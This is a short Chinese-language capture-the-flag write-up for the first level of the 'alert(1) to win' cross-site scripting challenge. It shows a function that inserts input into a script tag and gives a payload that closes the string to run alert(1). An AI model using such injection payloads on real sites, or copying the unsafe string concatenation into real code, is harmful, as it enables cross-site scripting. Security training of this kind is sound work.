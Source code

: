 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 01 - Warmup](https://alf.nu/alert1)] [[解题报告](https://exp-blog.com/safe/ctf/alert/level-01-warmup/)]

------

## 题目

```javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

------

## 解题报告

水题，闭合函数即可，payload 如下：

```javascript
");alert(1);("
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2001%20-%20Warmup/imgs/01.png)


------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
